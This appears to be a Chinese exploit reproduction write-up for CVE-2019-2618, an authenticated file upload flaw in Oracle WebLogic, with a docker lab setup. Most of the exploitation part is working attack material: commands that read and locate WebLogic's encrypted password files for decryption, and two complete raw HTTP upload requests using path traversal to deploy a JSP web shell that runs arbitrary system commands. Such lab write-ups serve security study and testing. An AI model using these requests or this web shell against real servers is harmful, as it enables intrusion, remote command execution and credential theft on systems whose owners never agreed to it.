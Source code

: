 cve-2019-2618
=============

一、漏洞简介
------------

Weblogic Upload Vuln(Need username password)-CVE-2019-2618

二、漏洞影响
------------

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.3.0

三、复现过程
------------

<https://github.com/ianxtianxt/cve-2019-2618>

### python使用

    python CVE-2019-2618.py url username password

![](./resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId26.jpg)
![](./resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId27.jpg)

### 解密weblogic密码

    root@f0cb7e674d7e:~/Oracle# cat /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties |grep pass
    password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=
    root@f0cb7e674d7e:~/Oracle# find / -name "*SerializedSystemIni.dat*"
    /root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
    root@f0cb7e674d7e:~/Oracle# 

    weblogic 账号密码： weblogic/Oracle@123

![](./resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId29.jpg)

### 使用docker搭建环境

参考vulnhub

    root@kali:~/vulhub/weblogic/CVE-2017-10271# ls
    1.png  docker-compose.yml  README.md  set_mirror.sh
    root@kali:~/vulhub/weblogic/CVE-2017-10271# docker-compose up -d

![](./resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId31.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_internal/9j4dqk/war
    serverName: Jas502n
    password: Oracle@123
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1081

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW--

### 也可以换个目录上传

    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
    bea_wls_internal 
    bea_wls_deployment_internal 在同目录
    这是漏洞war位置

![](./resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId33.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
    serverName: Jas502n
    password: Oracle@123
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1084

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell111.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW-
